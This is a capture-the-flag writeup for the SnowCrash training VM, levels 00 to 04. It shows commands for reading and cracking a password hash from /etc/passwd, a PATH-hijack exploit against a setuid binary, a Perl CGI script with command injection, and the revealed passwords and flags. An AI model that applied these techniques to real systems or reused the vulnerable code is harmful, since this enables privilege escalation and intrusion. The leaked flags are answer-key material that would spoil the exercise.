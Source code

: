 # snowcrash-writeup
This project aims to make you discover, through several little challenges, cyber security in various fields.

## Level00:

```bash
level00@SnowCrash:~$ ls -l /usr/sbin/ | grep flag00
----r--r--  1 flag00  flag00      15 Mar  5  2016 john
```
```bash
level00@SnowCrash:~$ cat /usr/sbin/john
cdiiddwpgswtgt
level00@SnowCrash:~$
```
ROT11: 

<img width="489" alt="image" src="https://user-images.githubusercontent.com/48088579/148955037-fe8cbff0-538f-4c38-b254-9c58efa00a20.png">

Password for flag00: `nottoohardhere`

Flag: `x24ti5gi3x0ol2eh4esiuxias`

## Level01:

```bash
level01@SnowCrash:~$ cat /etc/passwd
...
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
...
```
```bash
➜  ~ echo "42hDRfypTqqnw" > hash && john hash
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 SSE2-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefg          (?)
1g 0:00:00:00 100% 2/3 33.33g/s 25600p/s 25600c/s 25600C/s raquel..bigman
Use the "--show" option to display all of the cracked passwords reliably
Session completed
➜  ~
```

Password for flag01: `abcdefg`

Flag: `f2av5il02puano7naaf6adaaf`

## Level02:
```bash
level02@SnowCrash:~$ ls -l
total 12
----r--r-- 1 flag02 level02 8302 Aug 30  2015 level02.pcap
level02@SnowCrash:~$
```

TCP Stream:

<img width="691" alt="image" src="https://user-images.githubusercontent.com/48088579/148960536-2c6ce7ee-c4f2-4c5a-a2b9-9eceafa8bb38.png">

Password as Hex:

```
66
74
5f
77
61
6e
64
72
7f
7f
7f
4e
44
52
65
6c
7f
4c
30
4c
0d
```

Filtering the password: if `7f` is `DEL` and `0D` is `CR` the password will be `66 74 5F 77 61 4E 44 52 65 4C 30 4C`.

Password for flag02: `ft_waNDReL0L`

Flag: `kooda2puivaav1idi4f57q8iq`

## Level03:

```bash
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$ ./level03
Exploit me
level03@SnowCrash:~$
```

Disassembled:

<img width="468" alt="image" src="https://user-images.githubusercontent.com/48088579/148961769-ff778941-e677-4280-b940-a7ffee264ccb.png">

Exploit:

```bash
echo "/bin/bash" > /tmp/echo && chmod 777 /tmp/echo && export PATH=/tmp:$PATH && ./level03
```

Flag: `qi0maab88jeaj46qoumi7maus`

## Level04:

```bash
level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
level04@SnowCrash:~$
```

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Vulnerability: Command injection in `print ``echo $y 2>&1``;`

